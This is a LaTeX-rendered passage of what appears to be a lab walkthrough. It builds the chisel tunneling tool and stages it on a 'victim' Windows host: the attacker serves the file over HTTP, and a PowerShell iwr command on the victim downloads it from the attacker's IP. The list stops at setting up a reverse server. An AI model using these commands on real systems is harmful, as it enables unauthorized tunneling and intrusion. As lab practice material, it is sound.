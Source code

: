 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Sync clock with the victim machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rdate}\NormalTok{ -n 10.10.10.10}
\end{Highlighting}
\end{Shaded}
\item
  Download chisel and build it on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/jpillora/chisel}
\BuiltInTok{cd}\NormalTok{ chisel}
\ExtensionTok{go}\NormalTok{ build -ldflags }\StringTok{"-s -w"}\NormalTok{ .}
\FunctionTok{du}\NormalTok{ -hc chisel}
\ExtensionTok{upx}\NormalTok{ brute chisel}
\FunctionTok{du}\NormalTok{ -hc chisel}
\end{Highlighting}
\end{Shaded}
\item
  Download chisel.exe on \href{https://github.com/jpillora/chisel/releases/tag/v1.7.6}{github chisel release} and download the windows\_amd64.gz
\item
  Transfer chisel.exe to the victim machine

  \begin{itemize}
  \item
    on the attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mv}\NormalTok{ Downloads/Firefox/chisel_1.7.6_windows_amd64.gz chisel.exe.gz}
\FunctionTok{gunzip}\NormalTok{ chisel.exe.gz}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    on the victim machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{iwr}\NormalTok{ -uri htttp://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{/chisel.}\FunctionTok{exe}\NormalTok{ -outFile chisel.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  On the attacker machine create reverse server


\end{enumerate}
\end{document}
